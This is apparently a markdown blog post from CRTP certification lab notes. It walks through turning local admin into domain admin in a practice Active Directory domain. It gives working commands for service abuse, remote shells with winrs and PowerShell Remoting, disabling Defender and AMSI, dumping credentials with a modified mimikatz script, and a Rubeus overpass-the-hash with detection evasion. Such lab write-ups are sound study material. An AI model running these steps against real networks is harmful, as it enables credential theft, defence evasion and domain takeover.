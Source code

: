 ```yaml
---
title: Active Directory (AD) | Exploiting Local Admin to Domain Admin
date: 2024-07-01 00:00:00
categories: [Cert, CRTP]
tags: [Cert,Active Directory]     ## TAG names should always be lowercase
render_with_liquid: false
description: This topic covers the steps and techniques involved in leveraging local administrator access on machines
---
```


![Result](/img/crtp/result10.png){: width="972" height="589" }

## **Step 1: Check for Privilege Escalation Paths**
**Tools Used:** PowerView. This step ensures you can escalate your privileges on the current machine to gain local admin rights. Start by checking for any privilege escalation paths. If any services can be abused, add your domain user to the local admin group.

The Invoke-AllChecks function gathers information on the Active Directory environment, accessible network shares, local administrators, active user sessions, domain trust relationships, and services permissions to aid in network reconnaissance

```bash
Invoke-AllChecks
```
![Result](/img/crtp/result1.png){: width="972" height="589" }
_Invoke-AllChecks_

## **Step 2: Abusing Services**
**Tools Used:** PowerView. After running Step 1, you will have identified a few services that can be abused. We can exploit these services to add our current domain user to the local Administrators group. 

Adding a user to the local Administrators group allows them to perform administrative tasks such as installing software, changing system settings, and accessing all files on the system, which can be crucial for further exploitation and maintaining control over the machine.

```bash
Invoke-ServiceAbuse
Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\studentx' -Verbose
```

![Result](/img/crtp/result2.png){: width="972" height="589" }
_Now, our user is a local admin !_


## **Step 3: [Lateral Movement] Identifying Additional Machines for Local Admin Access**

**Tools Used:** Find-PSRemotingLocalAdminAccess.ps1. After gaining local admin rights on one machine, identifying other machines where you have local admin access helps in expanding your control over the network. This can give you access to more resources, data, or higher-privilege accounts. So, you have to identify any computers/machines in the domain where our user has local administrative access.

```bash
Find-PSRemotingLocalAdminAccess
```
![Result](/img/crtp/result3.png){: width="972" height="589" }
_Userx has administrative access on dcorp-adminsrv and on the student machine_

## **Step 4: [Lateral Movement] Exploiting Remote Access**

After identifying machines with local admin access, we can remotely connect using tools like winrs and PowerShell Remoting (Enter-PSSession) because local admin rights grant us the necessary permissions to access and control these machines remotely over the network.

### winrs Remoting
```bash
winrs -r:dcorp-adminsrv cmd
set username
set computername
```
![Result](/img/crtp/result4.png){: width="972" height="589" }

### PowerShell Remoting
```bash
Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
```
![Result](/img/crtp/result5.png){: width="972" height="589" }

## **Step 5: Derivative Local Admin**

Utilize derivative local admin access gained in Step 3 and 4 to identify machines with active domain admin sessions. Exploit these sessions to escalate privileges and potentially gain Domain Admin access, utilizing techniques such as token stealing or credential extraction.

**Tools Used:** Invoke-Mimi. To dump hashes or extract credentials from dcorp-adminsrv, we will use Invoke-Mimi.

### Disable Windows Defender on the target machines
```bash
Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
```

### Disable AMSI on the target machines
```bash
$sess = New-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
Invoke-Command -ScriptBlock {Set-MpPreference -DisableIOAVProtection $true} -Session $sess
```

### Using Dot Sourcing in PowerShell Scripts | Invoke-Mimi
In environments with strict security policies or when PowerShell operates in Constrained Language Mode, dot sourcing (.) scripts like Invoke-Mimi.ps1 may be restricted.

So, we must modify Invoke-Mimi.ps1 to include the function call in the script itself and transfer the modified script (Invoke-MimiEx.ps1) to the target server. Here is step-by-step :

- Create a copy of Invoke-Mimi.ps1 and rename it to Invoke-MimiEx.ps1. 
- Open Invoke-MimiEx.ps1 in PowerShell ISE (Right click on it and click Edit). 
- Add "Invoke-Mimi -Command '"sekurlsa::ekeys"' " (without quotes) to the end of the file.
- Copy the Invoke-MimiEx.ps1 to the target machines
```bash
Copy-Item C:\AD\Tools\Invoke-MimiEx.ps1 \\dcorp-adminsrv.dollarcorp.moneycorp.local\c$\'Program Files'
```
- Run the modified mimikatz script
```bash
Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local'
.\Invoke-MimiEx.ps1
```
![Result](/img/crtp/result13.png){: width="972" height="589" }

Here we find the credentials of the srvadmin, appadmin and websvc users. 


## **Step 6: OverPass-the-Hash | Obtaining TGT using Rubeus**

### Understanding Ticket Granting Tickets (TGTs)
Ticket Granting Tickets (TGTs) are a fundamental part of the Kerberos authentication protocol. When a user successfully authenticates to the Key Distribution Center (KDC), they receive a TGT. This TGT is a form of credential that allows the user to request service tickets (TGS) for accessing specific network services and resources within the Kerberos realm. It contains encrypted information about the user's identity, session key, and other relevant data required for subsequent authentication.

### Steps to Obtain TGT with Rubeus

- Encode arguments (like asktgt) using tools such as ArgSplit.bat to ensure secure transmission and evasion of detection.
![Result](/img/crtp/result11.png){: width="972" height="589" }
-  Use Loader.exe to initiate Rubeus with the encoded arguments (/args %Pwn%) to request a TGT. 
```bash
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:srvadmin
/aes256:145019659e1da3fb150ed94d510eb770276cfbd0cbd834a4ac331f2effe1dbb4
/opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
![Result](/img/crtp/result12.png){: width="972" height="589" }
- This retrieves a TGT for the specified user (srvadmin), enabling further operations within the Kerberos realm
![Result](/img/crtp/result14.png){: width="972" height="589" }

- The new process that starts has srvadmin privileges. Check if srvadmin has admin privileges on any other machine.

